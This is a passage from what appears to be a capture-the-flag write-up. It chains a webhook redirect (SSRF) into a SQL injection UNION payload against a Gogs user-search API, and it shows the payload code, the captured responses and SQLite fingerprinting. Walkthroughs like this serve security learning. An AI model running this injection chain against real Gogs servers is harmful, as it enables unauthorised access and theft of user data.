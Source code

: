 #### POC

I’ll test this out by updating the payload to point to Health’s Gogs just like
this, but it doesn’t work.

I’m going to simplify the payload a bit:

    
    
        target = "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--/**/-"
        return redirect(target)
    

This should just try to read numbers into the query, and it works:

    
    
    10.10.11.176 - - [06/Jan/2023 22:04:10] "GET /redirect HTTP/1.0" 302 -
    Got Hook!
    {'webhookUrl': 'http://10.10.14.6/hook', 'monitoredUrl': 'http://10.10.14.6/redirect', 'health': 'up', 'body': '{"data":[{"username":"susanne","avatar":"//1.gravatar.com/avatar/c11d48f16f254e918744183ef7b89fce"},{"username":"3","avatar":"//1.gravatar.com/avatar/15"}],"ok":true}', 'message': 'HTTP/1.0 302 FOUND', 'headers': {'Content-Type': 'application/json; charset=UTF-8', 'Content-Length': '166', 'Location': "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--/**/-", 'Server': 'Werkzeug/2.0.2 Python/3.8.10', 'Date': 'Fri, 06 Jan 2023 22:04:10 GMT', 'Set-Cookie': '_csrf=; Path=/; Max-Age=0'}}
    10.10.11.176 - - [06/Jan/2023 22:04:10] "POST /hook HTTP/1.1" 200 -
    

It’s giving info about “susanne” as well as about “3”.

#### Id Database

If I try to replace `3` with `version()`, it fails. That implies the DB may
not be MySQL. SQLite uses `sqlite_version()`, and putting that in works:

    
    
    10.10.11.176 - - [06/Jan/2023 22:09:04] "GET /redirect HTTP/1.0" 302 -
    Got Hook!
    {'webhookUrl': 'http://10.10.14.6/hook', 'monitoredUrl': 'http://10.10.14.6/redirect', 'health': 'up', 'body': '{"data":[{"username":"susanne","avatar":"//1.gravatar.com/avatar/c11d48f16f254e918744183ef7b89fce"},{"username":"3.8.5","avatar":"//1.gravatar.com/avatar/15"}],"ok":true}', 'message': 'HTTP/1.0 302 FOUND', 'headers': {'Content-Type': 'application/json; charset=UTF-8', 'Content-Length': '170', 'Location': "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,sqlite_version(),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--/**/-", 'Server': 'Werkzeug/2.0.2 Python/3.8.10', 'Date': 'Fri, 06 Jan 2023 22:09:04 GMT', 'Set-Cookie': '_csrf=; Path=/; Max-Age=0'}}
    10.10.11.176 - - [06/Jan/2023 22:09:04] "POST /hook HTTP/1.1" 200 -
    

It’s running SQLite version 3.8.5.

#### Run Gogs Locally

To get this to work, I’ll need to get Gogs running locally. I’ll download this
version form the [release
page](https://github.com/gogs/gogs/releases/tag/v0.5.5). It’s a zip with a
compiled binary in it. I’ll run `./gogs web`, and it starts the web server.
